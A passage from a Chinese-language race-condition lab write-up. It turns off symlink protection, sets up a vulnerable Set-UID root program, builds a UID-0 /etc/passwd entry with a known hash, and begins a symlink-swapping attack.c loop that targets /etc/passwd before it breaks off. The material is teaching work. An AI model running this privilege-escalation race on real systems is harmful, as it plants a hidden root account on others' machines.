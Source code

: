 直接使用源文件可能会发出警告：vulp.c:20:42: warning: incompatible implicit declaration of built-in function ‘strlen’ [enabled by default]

在C语言中，使用以前未声明的函数构成函数的隐式声明。在隐式声明中，返回类型是int。现在，GCC有了一些标准函数的内置定义。如果隐式声明与内置定义不匹配，则会发出此警告。要解决这个问题，就必须在使用函数之前声明它们；通常可以通过包含适当的头文件来实现这一点。

```c
#include <string.h>
```

#### 编译vulp

首先编译 vulp.c 代码，将二进制代码文件设置为 root 所有的 Set-UID 程序。禁用保护措施。

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
```

```bash
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
```

![image-20220320110515452](Race_Condition/image-20220320110515452.png)

#### 创建passwd_input

内容为

```bash
crack:$1$a3g1$sjnd1nkAwCfjT4/r0sTA20:0:0:,,,:/root:/bin/bash
```

或者

```bash
crack:a39StiWb.hkcY:0:0:,,,:/root:/bin/bash
```

关于内容来源

```bash
echo "crack:"$(openssl passwd -crypt -salt a3g1 123456)":0:0:,,,:/root:/bin/bash"
```

![image-20220320161235148](Race_Condition/image-20220320161235148.png)

#### 编写attack.c文件

```c
#include <unistd.h>

int main()
{
    while (1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
```